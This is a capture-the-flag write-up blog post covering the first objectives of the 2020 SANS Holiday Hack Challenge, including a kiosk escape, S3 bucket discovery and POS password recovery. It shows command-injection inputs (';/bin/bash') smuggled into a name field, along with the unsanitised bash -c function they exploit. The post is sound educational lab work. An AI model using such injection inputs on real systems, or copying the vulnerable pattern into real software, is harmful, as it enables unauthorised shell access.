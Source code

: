 SANS Christmas Challenge 2020
=============================
:date: 2021-01-11
:author: useless
:category: Write-up
:slug: sans-christmas-challenge-2020
:status: published

.. image:: /images/sans-christmas-challenge-2020/sans_christmas_challenge_2020_logo.png
    :alt: sans_christmas_challenge_2020_logo.png
    :align: center

Oh, the COVID is frightful,

But KringleCon is so delightful,

And since we must all stay home,

Let it pwn! Let it pwn! Let it pwn!

Here's my write-up for the `2020 SANS Christmas Challenge <https://holidayhackchallenge.com/2020/>`__.

.. contents:: Table of contents

Introduction
~~~~~~~~~~~~

A new KringleCon is taking place, and it's being hosted at Santa's new castle.

Santa's castle is under construction to accommodate for KringleCon's growing
population of attendees. However, the elves seem to think that Santa has been
behaving rather strangely, especially since Jack Frost offered him a portrait.
In fact, isn't it weird that Jack Frost is here, since the Tooth Fairy seems
to have colluded with him to sabotage last year's KringleCon?

This requires some investigation!

Here are the questions we must answer:

1. There is a photo of Santa's Desk on that billboard with his personal gift
   list. What gift is Santa planning on getting Josh Wright for the holidays?

2. When you unwrap the over-wrapped file, what text string is inside the
   package?

3. Help Sugarplum Mary in the Courtyard find the supervisor password for the
   point-of-sale terminal. What's the password?

4. Talk to Pepper Minstix in the entryway to get some hints about the
   Santavator.

5. Open the HID lock in the Workshop.

6. Access the Splunk terminal in the Great Room. What is the name of the
   adversary group that Santa feared would attack KringleCon?

7. Jack Frost is somehow inserting malicious messages onto the sleigh's CAN-D
   bus. We need you to exclude the malicious messages and no others to fix the
   sleigh.

8. Help Noel Boetie fix the Tag Generator in the Wrapping Room. What value is
   in the environment variable :code:`GREETZ`?

9. Go to the NetWars room on the roof and help Alabaster Snowball get access
   back to a host using ARP. Retrieve the document at :code:`/NORTH_POLE_Land_Use_Board_Meeting_Minutes.txt`.
   Who recused herself from the vote described on the document?

10. Bypass the Santavator fingerprint sensor. Enter Santa's office without
    Santa's fingerprint.

11. a. Even though the chunk of the blockchain that you have ends with block
    129996, can you predict the nonce for block 130000?

11. b. The SHA256 of Jack's altered block is: :code:`58a3b9335a6ceb0234c12d35a0564c4ef0e90152d0eb2ce2082383b38028a90f`.
    If you're clever, you can recreate the original version of that block by
    changing the values of only 4 bytes. Once you've recreated the original
    block, what is the SHA256 of that block?

Objective 1: Uncover Santa's Gift List
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

We are greeted at the gondola by Jingle Ringford:

.. image:: /images/sans-christmas-challenge-2020/jingleringford.png
    :alt: jingleringford.png
    :align: center

*Jingle Ringford says*

    Welcome! Hop in the gondola to take a ride up the mountain to Exit 19:
    Santa's castle!

    Santa asked me to design the new badge, and he wanted it to look really
    cold - like it was frosty.

    Click your badge (the snowflake in the center of your avatar) to read your
    objectives.

    If you'd like to chat with the community, join us on Discord!

    We have specially appointed Kringle Koncierges as helpers; you can hit them
    up for help in the #general channel!

    If you get a minute, check out Ed Skoudis' official intro to the con!

    Oh, and before you head off up the mountain, you might want to try to
    figure out what's written on that advertising bilboard.

Behind the gondola, we can see said billboard:

.. image:: /images/sans-christmas-challenge-2020/billboard.png
    :alt: billboard.png
    :align: center

We can see that a gift list is on Santa's desk, but it's been twirled. We can
use GIMP to try and untwirl it, so that we can see who will get what.

First, let's use the free-hand selection to select the gift list:

.. image:: /images/sans-christmas-challenge-2020/billboard_gimp_1.png
    :alt: billboard_gimp_1.png
    :align: center

Then, let's use the twirl effect, under :code:`Filters > Distort > Whirl and Pinch`:

.. image:: /images/sans-christmas-challenge-2020/billboard_gimp_2.png
    :alt: billboard_gimp_2.png
    :align: center

Oh boy, okay, it's not the prettiest correction, but we can make out what it
says:

    Ed - Two front teeth

    \- OU Jersey

    Jeremy - Blanket

    Brian - 
    
    Josh Wright - Proxmark

    Clay - Darth Vader Suit

    Tad - Holiday Lights

    Phil - Stuffed Pikachu

    Jerry - Trip to North Pole

So Santa is planning on offering a :code:`Proxmark` to Josh Wright, nice!

Now, let's ride the gondola!

Objective 2:
~~~~~~~~~~~~

We finally arrive at Santa's castle:

.. image:: /images/sans-christmas-challenge-2020/santa.png
    :alt: santa.png
    :align: center

*Santa says*

    Hello and welcome to the North Pole!

    We’re super excited about this year’s KringleCon 3: French Hens.

    My elves have been working all year to upgrade the castle.

    It was a HUGE construction project, and we’ve nearly completed it.

    Please pardon the remaining construction dust around the castle and enjoy
    yourselves!

There are also three French hens:

.. image:: /images/sans-christmas-challenge-2020/pierre.png
    :alt: pierre.png

.. image:: /images/sans-christmas-challenge-2020/marie.png
    :alt: marie.png

.. image:: /images/sans-christmas-challenge-2020/jeanclaude.png
    :alt: jeanclaude.png

*Pierre, Marie, and Jean-Claude say*

    Bonjour !

    Joyeuses fêtes !

    Jacques DuGivre !

Shinny Upatree's Cranberry Pi Challenge
---------------------------------------

::

    Welcome to our castle, we're so glad to have you with us!
    Come and browse the kiosk; though our app's a bit suspicious.
    Poke around, try running bash, please try to come discover,
    Need our devs who made our app pull/patch to help recover?
    Escape the menu by launching /bin/bash

We press enter, and we are greeted by a menu. We have several options, such as
displaying the castle's map, or the code of conduct, but the fourth option,
printing the name badge, seems to be the most interesting:

::

    ~~~~~~~~~~~~~~~~~~~~~~~~~~~~
     Welcome to the North Pole!
    ~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    1. Map
    2. Code of Conduct and Terms of Use
    3. Directory
    4. Print Name Badge
    5. Exit
    Please select an item from the menu by entering a single number.
    Anything else might have ... unintended consequences.
    Enter choice [1 - 5] 4
    Enter your name (Please avoid special characters, they cause some weird errors)...useless
     _________
    < useless >
     ---------
      \
       \   \_\_    _/_/
        \      \__/
               (oo)\_______
               (__)\       )\/\
                   ||----w |
                   ||     ||
    Press [Enter] key to continue...

We input our name, wich seems to be passed as an argument to :code:`cowsay`
(or :code:`reindeersay` or something). And we're told to avoid special
characters... So let's input special characters!

::

    Enter your name (Please avoid special characters, they cause some weird errors)...; ls -lh
     _______________________
    < Santa's Little Helper >
     -----------------------
      \
       \   \_\_    _/_/
        \      \__/
               (oo)\_______
               (__)\       )\/\
                   ||----w |
                   ||     ||
    total 4.0K
    -rwxr-xr-x 1 root root 2.5K Dec  6 12:24 welcome.sh

As you can see, our payload after the semi-colon, :code:`ls -lh` was executed.
The initial prompt told us to execute :code:`/bin/bash`, so let's oblige:

::

    Enter your name (Please avoid special characters, they cause some weird errors)...;/bin/bash
     _______________________
    < Santa's Little Helper >
     -----------------------
      \
       \   \_\_    _/_/
        \      \__/
               (oo)\_______
               (__)\       )\/\
                   ||----w |
                   ||     ||
       ___                                                      _    
      / __|   _  _     __      __      ___     ___     ___     | |   
      \__ \  | +| |   / _|    / _|    / -_)   (_-<    (_-<     |_|   
      |___/   \_,_|   \__|_   \__|_   \___|   /__/_   /__/_   _(_)_  
    _|"""""|_|"""""|_|"""""|_|"""""|_|"""""|_|"""""|_|"""""|_| """ | 
    "`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-' 
    Type 'exit' to return to the menu.
    shinny@a15f68a2d576:~$ 

And bingo, we have a shell! We can even take a look inside :code:`welcome.sh`
to see the vulnerable function:

.. code-block:: bash
    :hl_lines: 6

    four() {
      read -r -p "Enter your name (Please avoid special characters, they cause some weird errors)..." name
      if [ -z "$name" ]; then
        name="Santa\'s Little Helper"
      fi
      bash -c "/usr/games/cowsay -f /opt/reindeer.cow $name"
      pause
    }

We can even see that there is a :code:`surprise` command, displaying the
content of :code:`/opt/plant.txt`:

.. code-block:: bash

    surprise(){
      cat /opt/plant.txt
      echo "Sleeping for 10 seconds.." && sleep 10
    }

.. code-block:: console

    shinny@913bd6bfa881:~$ cat /opt/plant.txt
      Hi, my name is Jason the Plant!
      ( U
       \| )
      __|/
      \    /
       \__/ ejm96

Investigate S3 Bucket
---------------------

.. code-block:: console

    Can you help me? Santa has been experimenting with new wrapping technology, and
    we've run into a ribbon-curling nightmare!
    We store our essential data assets in the cloud, and what a joy it's been!
    Except I don't remember where, and the Wrapper3000 is on the fritz!
    Can you find the missing package, and unwrap it all the way?
    Hints: Use the file command to identify a file type. You can also examine
    tool help using the man command. Search all man pages for a string such as
    a file extension using the apropos command.
    To see this help again, run cat /etc/motd.
    elf@34d399b25d38:~$

We must help Shinny find Santa's assets in the cloud. Let's explore the file
system:

.. code-block:: console

    elf@2b6fbc08838a:~$ ls
    TIPS  bucket_finder
    elf@2b6fbc08838a:~$ cd bucket_finder/
    elf@2b6fbc08838a:~/bucket_finder$ ls
    README  bucket_finder.rb  wordlist
    elf@2b6fbc08838a:~/bucket_finder$ ./bucket_finder.rb --help
    bucket_finder 1.0 Robin Wood (robin@digininja.org) (www.digininja.org)
    Usage: bucket_finder [OPTION] ... wordlist
            --help, -h: show help
            --download, -d: download the files
            --log-file, -l: filename to log output to
            --region, -r: the region to use, options are:
                                            us - US Standard
                                            ie - Ireland
                                            nc - Northern California
                                            si - Singapore
                                            to - Tokyo
            -v: verbose
            wordlist: the wordlist to use

We have a script, :code:`bucket_finder`, which takes a wordlist, and tries to
see if it's the name of a valid AWS S3 bucket. Let's take a look at the
wordlist:

.. code-block:: console

    elf@2b6fbc08838a:~/bucket_finder$ cat wordlist
    kringlecastle
    wrapper
    santa

Only three words. Looking at the earlier message of the day, we see that the
elves use something called :code:`Wrapper3000`. Let's add it to the wordlist,
and launch the script.

.. code-block:: console
    :hl_lines: 12 13

    elf@2b6fbc08838a:~/bucket_finder$ echo wrapper3000 >> wordlist
    elf@2b6fbc08838a:~/bucket_finder$ ./bucket_finder.rb ./wordlist
    http://s3.amazonaws.com/kringlecastle
    Bucket found but access denied: kringlecastle
    http://s3.amazonaws.com/wrapper
    Bucket found but access denied: wrapper
    http://s3.amazonaws.com/santa
    Bucket santa redirects to: santa.s3.amazonaws.com
    http://santa.s3.amazonaws.com/
            Bucket found but access denied: santa
    http://s3.amazonaws.com/wrapper3000
    Bucket Found: wrapper3000 ( http://s3.amazonaws.com/wrapper3000 )
            <Public> http://s3.amazonaws.com/wrapper3000/package

We have found our package! Let's download it using :code:`bucket_finder`'s
:code:`--download` option:

.. code-block:: console
    :hl_lines: 5

    elf@2b6fbc08838a:~/bucket_finder$ ./bucket_finder.rb -d ./wordlist
    [...]
    http://s3.amazonaws.com/wrapper3000
    Bucket Found: wrapper3000 ( http://s3.amazonaws.com/wrapper3000 )
            <Downloaded> http://s3.amazonaws.com/wrapper3000/package

Let's see what we got:

.. code-block:: console

    elf@2b6fbc08838a:~/bucket_finder$ cd wrapper3000/
    elf@2b6fbc08838a:~/bucket_finder/wrapper3000$ ls
    package
    elf@2b6fbc08838a:~/bucket_finder/wrapper3000$ file package
    package: ASCII text, with very long lines
    elf@2b6fbc08838a:~/bucket_finder/wrapper3000$ cat package
    UEsDBAoAAAAAAIAwhFEbRT8anwEAAJ8BAAAcABwAcGFja2FnZS50eHQuWi54ei54eGQudGFyLmJ6MlVUCQADoBfKX6
    AXyl91eAsAAQT2AQAABBQAAABCWmg5MUFZJlNZ2ktivwABHv+Q3hASgGSn//AvBxDwf/xe0gQAAAgwAVmkYRTKe1PV
    M9U0ekMg2poAAAGgPUPUGqehhCMSgaBoAD1NNAAAAyEmJpR5QGg0bSPU/VA0eo9IaHqBkxw2YZK2NUASOegDIzwMXM
    HBCFACgIEvQ2Jrg8V50tDjh61Pt3Q8CmgpFFunc1Ipui+SqsYB04M/gWKKc0Vs2DXkzeJmiktINqjo3JjKAA4dLgLt
    PN15oADLe80tnfLGXhIWaJMiEeSX992uxodRJ6EAzIFzqSbWtnNqCTEDML9AK7HHSzyyBYKwCFBVJh17T636a6Ygyj
    X0eE0IsCbjcBkRPgkKz6q0okb1sWicMaky2Mgsqw2nUm5ayPHUeIktnBIvkiUWxYEiRs5nFOM8MTk8SitV7lcxOKst
    2QedSxZ851ceDQexsLsJ3C89Z/gQ6Xn6KBKqFsKyTkaqO+1FgmImtHKoJkMctd2B9JkcwvMr+hWIEcIQjAZGhSKYNP
    xHJFqJ3t32Vjgn/OGdQJiIHv4u5IpwoSG0lsV+UEsBAh4DCgAAAAAAgDCEURtFPxqfAQAAnwEAABwAGAAAAAAAAAAA
    AKSBAAAAAHBhY2thZ2UudHh0LloueHoueHhkLnRhci5iejJVVAUAA6AXyl91eAsAAQT2AQAABBQAAABQSwUGAAAAAA
    EAAQBiAAAA9QEAAAAA

This looks like base64 encoded data. Let's decode it:

.. code-block:: console

    elf@2b6fbc08838a:~/bucket_finder/wrapper3000$ base64 -d < package > package_decoded
    elf@2b6fbc08838a:~/bucket_finder/wrapper3000$ file package_decoded
    package_decoded: Zip archive data, at least v1.0 to extract

The decoded data seems to be a ZIP archive. Let's rename the file and unzip it:

.. code-block:: console
    :hl_lines: 4

    elf@2b6fbc08838a:~/bucket_finder/wrapper3000$ mv package_decoded{,.zip}
    elf@2b6fbc08838a:~/bucket_finder/wrapper3000$ unzip package_decoded.zip
    Archive:  package_decoded.zip
     extracting: package.txt.Z.xz.xxd.tar.bz2

Wow, this package seems to have been wrapped in lots of layers of compression.
Let's start with the last extensions, the :code:`.tar.bz2`:

.. code-block:: console

    elf@2b6fbc08838a:~/bucket_finder/wrapper3000$ tar xjf package.txt.Z.xz.xxd.tar.bz2
    elf@2b6fbc08838a:~/bucket_finder/wrapper3000$ cat package.txt.Z.xz.xxd
    00000000: fd37 7a58 5a00 0004 e6d6 b446 0200 2101  .7zXZ......F..!.
    00000010: 1600 0000 742f e5a3 0100 2c1f 9d90 4ede  ....t/....,...N.
    00000020: c8a1 8306 0494 376c cae8 0041 054d 1910  ......7l...A.M..
    00000030: 46e4 bc99 4327 4d19 8a06 d984 19f3 f08d  F...C'M.........
    00000040: 1b10 45c2 0c44 a300 0000 0000 c929 dad6  ..E..D.......)..
    00000050: 64ef da24 0001 452d 1e52 57e8 1fb6 f37d  d..$..E-.RW....}
    00000060: 0100 0000 0004 595a                      ......YZ

The :code:`.xxd` file seems to be a binary representation of the original file,
generated with :code:`xxd -c 16`. We can decode it using :code:`xxd -r -c 16`:

.. code-block:: console

    elf@2b6fbc08838a:~/bucket_finder/wrapper3000$ xxd -r -c 16 < package.txt.Z.xz.xxd > package.txt.Z.xz
    elf@2b6fbc08838a:~/bucket_finder/wrapper3000$ file package.txt.Z.xz
    package.txt.Z.xz: XZ compressed data

We now have XZ compressed data. We can use :code:`unxz` to decompress it:

.. code-block:: console

    elf@2b6fbc08838a:~/bucket_finder/wrapper3000$ unxz package.txt.Z.xz
    elf@2b6fbc08838a:~/bucket_finder/wrapper3000$ file package.txt.Z
    package.txt.Z: compress'd data 16 bits

Finally, we have a file that seems to have been compressed, using the
`compress <https://en.wikipedia.org/wiki/Compress>`__ command. We can use
:code:`uncompress` to retrieve the original file:

.. code-block:: console
    :hl_lines: 3

    elf@2b6fbc08838a:~/bucket_finder/wrapper3000$ uncompress package.txt.Z
    elf@2b6fbc08838a:~/bucket_finder/wrapper3000$ cat package.txt
    North Pole: The Frostiest Place on Earth

We finally get the content of the file, :code:`North Pole: The Frostiest Place on Earth`.

Objective 3:
~~~~~~~~~~~~

Sugarplum Mary's Cranberry Pi Challenge
---------------------------------------

::

    The North Pole 🍭 Lollipop Maker:
    All the lollipops on this system have been stolen by munchkins. Capture munchkins by following instructions here and 🍭's will appear in the green bar below. Run the command "hintme" to receive a hint.



    ───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────

    Type "yes" to begin:

This terminal is a Linux challenge where we have to prove that we have a basic
understanding of common Linux commands. Let's start:

::

    Perform a directory listing of your home directory to find a munchkin and retrieve a lollipop!

.. code-block:: console

    elf@c339776b4a9d:~$ ls
    HELP  munchkin_19315479765589239  workshop

::

    Now find the munchkin inside the munchkin.

.. code-block:: console

    elf@c339776b4a9d:~$ cat munchkin_19315479765589239
    munchkin_24187022596776786

::

    Great, now remove the munchkin in your home directory.

.. code-block:: console

    elf@c339776b4a9d:~$ rm munchkin_19315479765589239

::

    Print the present working directory using a command.

.. code-block:: console

    elf@c339776b4a9d:~$ pwd
    /home/elf

::

    Good job but it looks like another munchkin hid itself in you home directory. Find the hidden munchkin!

.. code-block:: console

    elf@c339776b4a9d:~$ ls -a
    .  ..  .bash_history  .bash_logout  .bashrc  .munchkin_5074624024543078  .profile  HELP  workshop

::

    Excellent, now find the munchkin in your command history.

.. code-block:: console

    elf@c339776b4a9d:~$ grep -i munchkin .bash_history 
    echo munchkin_9394554126440791

::

    Find the munchkin in your environment variables.

.. code-block:: console

    elf@c339776b4a9d:~$ set | grep -i munchkin
    SESSNAME='Munchkin Wrangler'
    z_MUNCHKIN=munchkin_20249649541603754

::

    Next, head into the workshop.

.. code-block:: console

    elf@c339776b4a9d:~$ cd workshop/

::

    A munchkin is hiding in one of the workshop toolboxes. Use "grep" while ignoring case to find which toolbox the munchkin is in.

.. code-block:: console

    elf@c339776b4a9d:~/workshop$ grep -i munchkin *
    grep: electrical: Is a directory
    toolbox_191.txt:mUnChKin.4056180441832623

::

    A munchkin is blocking the lollipop_engine from starting. Run the lollipop_engine binary to retrieve this munchkin.

.. code-block:: console

    elf@c339776b4a9d:~/workshop$ ls -l ./lollipop_engine 
    -r--r--r-- 1 elf elf 5692640 Dec 10 18:19 ./lollipop_engine
    elf@c339776b4a9d:~/workshop$ chmod +x ./lollipop_engine 
    elf@c339776b4a9d:~/workshop$ ./lollipop_engine 
    munchkin.898906189498077

::

    Munchkins have blown the fuses in /home/elf/workshop/electrical. cd into electrical and rename blown_fuse0 to fuse0.

.. code-block:: console

    elf@c339776b4a9d:~/workshop$ cd electrical/
    elf@c339776b4a9d:~/workshop/electrical$ mv blown_fuse0 fuse0

::

    Now, make a symbolic link (symlink) named fuse1 that points to fuse0

I **never** remember the order of the arguments for :code:`ln` and always
have to check it up:

.. code-block:: console

    elf@c339776b4a9d:~/workshop/electrical$ ln -s ./fuse0 ./fuse1

::

    Make a copy of fuse1 named fuse2.

.. code-block:: console

    elf@c339776b4a9d:~/workshop/electrical$ cp ./fuse1 ./fuse2

::

    We need to make sure munchkins don't come back. Add the characters "MUNCHKIN_REPELLENT" into the file fuse2.

.. code-block:: console

    elf@c339776b4a9d:~/workshop/electrical$ echo MUNCHKIN_REPELLENT > ./fuse2

::

    Find the munchkin somewhere in /opt/munchkin_den.

The :code:`-type f` specifies that we are looking for a file. The
:code:`-iname` argument is used to perform a case-insensitive search on the
name.

.. code-block:: console

    elf@c339776b4a9d:~/workshop/electrical$ find /opt/munchkin_den/ -type f -iname '*munchkin*'
    /opt/munchkin_den/apps/showcase/src/main/resources/mUnChKin.6253159819943018

::

    Find the file somewhere in /opt/munchkin_den that is owned by the user munchkin.

.. code-block:: console

    elf@c339776b4a9d:~/workshop/electrical$ find /opt/munchkin_den/ -user munchkin
    /opt/munchkin_den/apps/showcase/src/main/resources/template/ajaxErrorContainers/niKhCnUm_9528909612014411

::

    Find the file created by munchkins that is greater than 108 kilobytes and less than 110 kilobytes located somewhere in /opt/munchkin_den.

.. code-block:: console

    elf@c339776b4a9d:~/workshop/electrical$ find /opt/munchkin_den/ -size +108k -size -110k
    /opt/munchkin_den/plugins/portlet-mocks/src/test/java/org/apache/m_u_n_c_h_k_i_n_2579728047101724

::

    List running processes to find another munchkin.

.. code-block:: console

    elf@c339776b4a9d:~/workshop/electrical$ ps aux | grep -i munchkin
    elf      16735  0.7  0.0  84316 26016 pts/2    S+   12:13   0:00 /usr/bin/python3 /14516_munchkin
    elf      17668  0.0  0.0  13240  1068 pts/3    S+   12:14   0:00 grep --color=auto -i munchkin

::

    The 14516_munchkin process is listening on a tcp port. Use a command to have the only listening port display to the screen.

.. code-block:: console
    :hl_lines: 2

    elf@c339776b4a9d:~/workshop/electrical$ ss -tlpn
    bash: ss: command not found

What? No :code:`ss`?! Let's do it the old fashioned way:

.. code-block:: console

    elf@c339776b4a9d:~/workshop/electrical$ netstat -tlpn
    (Not all processes could be identified, non-owned process info
     will not be shown, you would have to be root to see it all.)
    Active Internet connections (only servers)
    Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
    tcp        0      0 0.0.0.0:54321           0.0.0.0:*               LISTEN      16735/python3

::

    The service listening on port 54321 is an HTTP server. Interact with this server to retrieve the last munchkin.

.. code-block:: console

    elf@c339776b4a9d:~/workshop/electrical$ curl http://localhost:54321
    munchkin.73180338045875

::

    Your final task is to stop the 14516_munchkin process to collect the remaining lollipops.

From the result of the earlier :code:`netstat` command, we see that the PID of
the process is 16735:

.. code-block:: console

    elf@c339776b4a9d:~/workshop/electrical$ kill -9 16735

::

    Congratulations, you caught all the munchkins and retrieved all the lollipops!

Point-of-Sale Password Recovery
-------------------------------

When we try to interact with the Point-of-Sale, we're greeted by a message
saying it's locked, and offering to download an offline version:

.. image:: /images/sans-christmas-challenge-2020/pos_locked.png
    :alt: pos_locked.png
    :align: center

You can download the offline version `here <https://download.holidayhackchallenge.com/2020/santa-shop/santa-shop.exe>`__
(make sure you run it into a Virtual Machine, don't run random executable files
you find on the Internet, stay safe, wear a mask and wash your hands).

So, let's run the executable:

.. image:: /images/sans-christmas-challenge-2020/pos_auto_extract.png
    :alt: pos_auto_extract.png
    :align: center

Hmm, it seems to be an auto-extracting archive. Let's see where the files are
extracted. We can do so by opening task manager, right clicking on the process
and select "Open file location":

.. image:: /images/sans-christmas-challenge-2020/pos_task_manager.png
    :alt: pos_task_manager.png
    :align: center

The files are extracted in the :code:`%LOCALAPPDATA%\Programs\santa-shop`:

.. image:: /images/sans-christmas-challenge-2020/pos_extracted_files.png
    :alt: pos_extracted_files.png
    :align: center

We can now access the resources of the program. Let's interact a bit with the
application, for example by entering an incorrect password:

.. image:: /images/sans-christmas-challenge-2020/pos_invalid_password.png
    :alt: pos_invalid_password.png
    :align: center

We get the message :code:`Invalid password!`. Let's search for this string
in the program resources:

.. code-block:: console

    $ grep -aR 'Invalid password!' ./santa-shop/
    ./santa-shop/resources/app.asar:      document.getElementById('password-message').innerText = 'Invalid password!';

The file :code:`resources/app.asar` is a match! Let's open it and see the code:

.. code-block:: js
    :hl_lines: 6

    const checkPassword = (event) => {
      event.preventDefault();

      const theirPassword = document.getElementById('password').value;

      window.ipcRenderer.invoke('unlock', theirPassword).then((result) => {
        if(result) {
          closeOverlay();
        } else {
          document.getElementById('password-message').innerText = 'Invalid password!';
          setTimeout(() => {
            document.getElementById('password-message').innerText = '';
          }, 2000);
        }
      });
    };

By digging around the file, we can find the :code:`unlock` function:

.. code-block:: js

    ipcMain.handle('unlock', (event, password) => {
      return (password === SANTA_PASSWORD);
    });

The password is compared to a variable called :code:`SANTA_PASSWORD`. We can
find its value in the same file:

.. code-block:: js

    const SANTA_PASSWORD = 'santapass';

So, using the password :code:`santapass`, we can unlock the POS:

.. image:: /images/sans-christmas-challenge-2020/pos_unlocked.png
    :alt: pos_unlocked.png
    :align: center

Objective 4:
~~~~~~~~~~~~

Pepper Minstix's Cranberry Pi Challenge
---------------------------------------

.. code-block:: console

    Can you help me?

    I was playing with my birdie (she's a Green Cheek!) in something called tmux,
    then I did something and it disappeared!

    Can you help me find her? We were so attached!!
    elf@d6ba776b7158:~$

From the message, we gather that we must attach to a :code:`tmux` session.
Let's see the different sessions available:

.. code-block:: console

    elf@58113bd45bb4:~$ tmux list-sessions
    0: 1 windows (created Tue Dec 22 15:13:15 2020) [80x24]

Only one session, let's attach to it:

.. code-block:: console

    elf@58113bd45bb4:~$ tmux attach-session -t 0

.. image:: /images/sans-christmas-challenge-2020/pepper_minstix_cranberry_pi_w00t.png
    :alt: pepper_minstix_cranberry_pi_w00t.png
    :align: center

Operate the Santavator
----------------------

We're supposed to talk to Pepper Minstix to get information about the
Santavator:

.. image:: /images/sans-christmas-challenge-2020/pepperminstix.png
    :alt: pepperminstix.png
    :align: center

*Pepper Minstix says*

    There's a Santavator that moves visitors from floor to floor, but it's a
    bit wonky.

    You'll need a key and other odd objects. Try talking to Sparkle Redberry
    about the key.

    For the odd objects, maybe just wander around the castle and see what you
    find on the floor.

    Once you have a few, try using them to split, redirect, and color the Super
    Santavator Sparkle Stream (S4).

So, we can get the key directly from Sparkle Redberry:

.. image:: /images/sans-christmas-challenge-2020/sparkleredberry.png
    :alt: sparkleredberry.png
    :align: center

*Sparkle Redberry says*

    Hey hey, Sparkle Redberry here!

    The Santavator is on the fritz. Something with the wiring is grinchy, but
    maybe you can rig something up?

    Here's the key! Good luck!

With the key, we can open the control pannel:

.. image:: /images/sans-christmas-challenge-2020/santavator_open.png
    :alt: santavator_open.png
    :align: center

Ok, we can see the sparkle stream that Pepper Minstix mentioned. He also said
that we can use objects to redirect the stream. Maybe to the three colored
nozzles? There's also some kind of access plan, that tells us which colored
nozzles we must use to get access to which floor:

.. image:: /images/sans-christmas-challenge-2020/santavator_access_plan.png
    :alt: santavator_access_plan.png
    :align: center

Here's the floor we can go to given the colors we activate:

- Green
    - Lobby
    - Talks
- Green and red
    - Workshop
    - Roof access
- Green, red, and yellow
    - Santa's office

So, we need to find the bits and bobs to redirect the sparkle flow to the
nozzles. Or do we...

First method: finding the bits and bobs
.......................................

The first way to properly operate the Santavator is to roam around Santa's
castle and find the bits and bobs.

You can find the broken candycane next to the entry:

.. image:: /images/sans-christmas-challenge-2020/santavator_candycane.png
    :alt: santavator_candycane.png
    :align: center

The first hex nut is next to the Santavator:

.. image:: /images/sans-christmas-challenge-2020/santavator_hex_nut_1.png
    :alt: santavator_hex_nut_1.png
    :align: center

The second one is next to the arcade, below the table (I removed the table
so you could see):

.. image:: /images/sans-christmas-challenge-2020/santavator_hex_nut_2.png
    :alt: santavator_hex_nut_2.png
    :align: center

The green light is outside, next to the Google booth:

.. image:: /images/sans-christmas-challenge-2020/santavator_green_light.png
    :alt: santavator_green_light.png
    :align: center

With all these elements, we can light up the green nozzle, which means we can
go to the talk floor:

.. image:: /images/sans-christmas-challenge-2020/santavator_green_ok.png
    :alt: santavator_green_ok.png
    :align: center

The red light is next to track 7:

.. image:: /images/sans-christmas-challenge-2020/santavator_red_light.png
    :alt: santavator_red_light.png
    :align: center

With this new light, we can now go to the roof, in the NetWars room. We're
still missing the button to go to the workshop:

